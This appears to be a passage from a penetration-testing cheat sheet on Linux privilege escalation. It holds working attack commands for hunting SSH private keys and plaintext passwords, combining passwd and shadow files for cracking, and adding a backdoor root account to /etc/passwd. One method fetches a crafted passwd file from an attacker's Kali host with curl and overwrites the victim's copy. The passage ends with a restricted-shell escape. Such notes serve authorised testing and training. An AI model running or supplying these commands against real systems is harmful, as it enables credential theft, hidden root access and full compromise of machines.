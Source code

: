 ```
# centos
firewall-cmd --zone=public --add-port PORT/tcp
# check: ss -tulwn | grep PORT4
```
### Password Loot

```
# Locationg SSH Keys
cat /home/<user>/.ssh
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
chmod 600 id_rsa

# Finding Passwords # TAKES TIMEEE
grep --color=auto -rnw '/' -ie "PASSWORD=" --color=always 2> /dev/null

# Getting Shadow and passwd file both
unshadow <passwd file> <shadown file> > unshadowed.txt

# If password writing is visible
-> It's pwfeedback attack
```

```
# Writable passwd file + cp command
ls -la /etc/shadow
ls -la /etc/passwd # See if you can write into /etc/passwd

# On Kali, 
cp /etc/passwd passwd1

# Append chiya username to passwd1 file and cat /etc/passwd1 to see if its correct.
nano passwd1
chiya:$1$ignite$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash

# On Victim Machine, replacing the passwd file.
curl http://<KALI IP>:<PORT>/passwd1 -o /etc/passwd

Now Login using SSH or Simply SU chiya.
```

```

openssl passwd w00t
echo "root2:msdVLD2vfcrvg:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
w00t
id
```

### Restrict Shell Escape

```
// Rbash

# If your error looks like: -rbash: /usr/bin/python: restricted: cannot specify `/' in command names
BASH_CMDS[a]=/bin/sh;a
```
